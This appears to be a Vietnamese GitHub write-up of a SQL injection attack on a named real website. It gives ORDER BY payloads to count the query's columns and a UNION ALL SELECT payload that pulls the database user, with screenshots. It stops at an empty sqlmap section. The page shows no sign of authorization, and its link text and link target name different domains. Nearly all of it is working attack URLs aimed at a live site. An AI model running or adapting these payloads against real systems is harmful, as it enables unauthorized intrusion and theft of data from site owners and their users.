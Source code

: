 # TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `[http://www.gis.gov.bd/en/gis_file.php?id=9](http://www.cmkoo.com.hk/en/news/news.php?id=28)`


## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, user](#kiểm-tra-database-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`



